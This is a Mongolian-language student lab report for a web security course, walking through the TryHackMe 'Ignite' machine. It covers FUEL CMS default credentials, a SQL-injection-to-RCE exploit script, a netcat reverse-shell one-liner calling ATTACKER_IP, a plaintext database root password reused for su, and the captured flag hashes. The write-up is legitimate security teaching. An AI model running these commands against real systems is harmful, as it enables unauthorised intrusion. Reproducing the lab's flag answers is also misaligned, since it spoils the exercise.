<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал / F.NSA335/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  Ignite (EASY)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – IGNITE 


##  УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын **Ignite** нэртэй виртуал машины аюулгүй байдлын түвшинг шалгаж, системд үүссэн эмзэг байдал болон буруу тохиргоонуудыг илрүүлэх зорилгоор нэвтрэлтийн туршилт хийж гүйцэтгэлээ. Туршилтын явцад Kali Linux үйлдлийн системийг ашиглан зорилтот машин дээр ажиллаж буй **FUEL CMS** веб аппликейшны анхдагч (default) нэвтрэх мэдээллийг ашиглан удирдлагын самбарт нэвтэрч, SQL Injection эмзэг байдлыг ашиглан алсын зайнаас код ажиллуулах (RCE) боломж олж, эцэст нь root хэрэглэгчийн эрх авсан.

##  СҮЛЖЭЭНИЙ СУДАЛГАА (RECONNAISSANCE)


Ажлыг эхлүүлэхийн тулд зорилтот машины IP хаягийг тохируулж `nmap` хэрэгслээр порт сканнердав:

```bash
nmap -sC -sV -Pn 10.49.141.146
```

Сканы үр дүнд зөвхөн 80-р порт нээлттэй байгаа бөгөөд `Apache httpd 2.4.18` веб сервер ажиллаж байгааг тогтоосон. Мөн `http-robots.txt` script-ийн үр дүнд `/fuel/` гэсэн хориглогдсон (disallowed) замыг илрүүлсэн бөгөөд хуудасны гарчиг "Welcome to FUEL CMS" гэж харагдсан. Энэ нь зорилтот систем дээр **FUEL CMS** нэртэй контент менежментийн систем ажиллаж байгааг баталсан.

##  НЭВТРЭХ МЭДЭЭЛЭЛ ОЛОХ



`/fuel/` замаар FUEL CMS-ийн админ порталд хандахад, системийн анхны тохируулгын (default installation) хуудас анхдагч нэвтрэх мэдээллийг шууд харуулж байв:

```
Хаяг: http://10.49.141.146/fuel
Username: admin
Password: admin
```

Энэ нь суулгасны дараа нэвтрэх мэдээллийг солиогүй, маш ноцтой тохиргооны алдаа бөгөөд дараагийн бүх алхмын суурь болсон.

##  ЭМЗЭГ БАЙДЛЫГ АШИГЛАХ (SQL INJECTION → RCE)

FUEL CMS-ийн тодорхой хувилбарт мэдэгдэж буй SQL Injection эмзэг байдал байдаг бөгөөд үүнийг ашиглан алсын зайнаас PHP код ажиллуулах боломжтой. Интернетээс олсон эксплойт скриптийг зорилтот IP хаягт тохируулан ашигласан:



```bash
python2 fuelcms.py
```

Скрипт нь `/fuel/pages/select/` эндпойнт руу SQL Injection payload илгээж, уг payload дотор PHP код шургуулан алсын зайнаас команд ажиллуулах боломж олгодог байв.



Скриптийг ажиллуулж `whoami` командыг туршихад хариу нь **www-data** гэж гарч ирснээр эксплойт амжилттай ажиллаж, веб серверийн хэрэглэгчийн эрхээр команд ажиллуулах боломжтой болсныг баталсан.

##  REVERSE SHELL АВАХ



Эксплойт cmd prompt-оор дамжуулан дараах reverse shell payload-ыг ажиллуулсан:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 53 >/tmp/f
```

Attacker машин дээр `netcat` listener-ээр холболтыг хүлээн авч, тогтвортой bash shell болгохын тулд дараах командыг ажиллуулсан:



```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

##  ХЭРЭГЛЭГЧИЙН ТҮЛХҮҮР (USER FLAG)



`/home/www-data/flag.txt` файлыг нээж уншихад эхний даалгаврын хариулт болох хэрэглэгчийн түлхүүрийг олсон:

```
64706394cbf6dab6a91682cc8585059b
```



##  ДОТООД СУДАЛГАА БА ROOT ЭРХ АВАХ



FUEL CMS нь CodeIgniter framework дээр суурилсан тул өгөгдлийн сангийн тохиргоо нь стандарт байршилд байрладаг. `/var/www/html/fuel/application/config/database.php` файлыг нээж уншихад root хэрэглэгчийн нууц үг тодоор (plaintext) бичигдсэн байв:



```php
'username' => 'root',
'password' => 'mememe',
'database' => 'fuel_schema',
```

Веб серверийн хэрэглэгч `www-data` нь системийн `root` хэрэглэгчтэй ижил нэвтрэх мэдээллийг хуваалцаж байсан тул энэхүү нууц үгийг ашиглан `su root` командаар шууд системийн root хэрэглэгч рүү шилжих боломжтой болсон.

##  ROOT ТҮЛХҮҮР (ROOT FLAG)

Root эрхтэй болсны дараа `/root/root.txt` файлыг уншиж, сүүлийн даалгаврын хариултыг олсон:



##  ДҮГНЭЛТ

Энэхүү машин нь контент менежментийн системийн суулгацын дараа анхдагч нэвтрэх мэдээллийг солихгүй орхисны аюулыг тод харуулсан жишээ юм: `admin:admin` гэсэн анхдагч мэдээлэл нь шууд удирдлагын самбарт нэвтрэх боломж олгож, тус системийн SQL Injection эмзэг байдал нь алсын зайнаас код ажиллуулах (RCE) хүртэл хүргэсэн. Харин тохиргооны файлд өгөгдлийн сангийн root нууц үгийг тодоор бичиж, мөн тэрхүү нууц үгийг операцийн системийн root хэрэглэгчид давхар ашигласан нь привилеж шилжилтийг нэмэлт эксплойт шаардалгүйгээр, зөвхөн нэвтрэх мэдээллийн дахин ашиглалтаар л гүйцэтгэх боломжтой болгосон.
